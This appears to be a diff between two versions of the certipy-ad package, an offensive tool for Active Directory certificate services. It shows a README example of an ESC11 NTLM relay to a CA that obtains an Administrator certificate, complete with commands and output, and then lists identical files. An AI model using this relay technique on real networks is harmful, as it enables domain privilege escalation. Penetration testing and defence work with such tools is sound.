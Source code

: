  ```bash
-$ ntlmrelayx.py -t rpc://ca.corp.local -rpc-mode ICPR -icpr-ca-name corp-DC-CA -smb2support
+$ certipy relay -target 'rpc://ca.corp.local' -ca 'corp-ca'
+Certipy v4.7.0 - by Oliver Lyak (ly4k)
+
+[*] Targeting rpc://ca.corp.local (ESC11)
+[*] Listening on 0.0.0.0:445
+[*] Connecting to ncacn_ip_tcp:ca.corp.local[135] to determine ICPR stringbinding
+[*] Attacking user 'Administrator@CORP'
+[*] Template was not defined. Defaulting to Machine/User
+[*] Requesting certificate for user 'Administrator' with template 'User'
+[*] Requesting certificate via RPC
+[*] Successfully requested certificate
+[*] Request ID is 1
+[*] Got certificate with UPN 'Administrator@corp.local'
+[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-500'
+[*] Saved certificate and private key to 'administrator.pfx'
+[*] Exiting...
 ```
 
 ## Contact
 
 Please submit any bugs, issues, questions, or feature requests under "Issues" or send them to me on Twitter [@ly4k_](https://twitter.com/ly4k_).
 
 ## Credits
```

### Comparing `certipy-ad-4.6.0/certipy/commands/account.py` & `certipy-ad-4.7.0/certipy/commands/account.py`

 * *Files identical despite different names*

### Comparing `certipy-ad-4.6.0/certipy/commands/auth.py` & `certipy-ad-4.7.0/certipy/commands/auth.py`

 * *Files identical despite different names*

### Comparing `certipy-ad-4.6.0/certipy/commands/ca.py` & `certipy-ad-4.7.0/certipy/commands/ca.py`

 * *Files identical despite different names*

### Comparing `certipy-ad-4.6.0/certipy/commands/cert.py` & `certipy-ad-4.7.0/certipy/commands/cert.py`

 * *Files identical despite different names*

### Comparing `certipy-ad-4.6.0/certipy/commands/find.py` & `certipy-ad-4.7.0/certipy/commands/find.py`

 * *Files identical despite different names*

### Comparing `certipy-ad-4.6.0/certipy/commands/forge.py` & `certipy-ad-4.7.0/certipy/commands/forge.py`

 * *Files identical despite different names*

### Comparing `certipy-ad-4.6.0/certipy/commands/parsers/account.py` & `certipy-ad-4.7.0/certipy/commands/parsers/account.py`

 * *Files identical despite different names*

```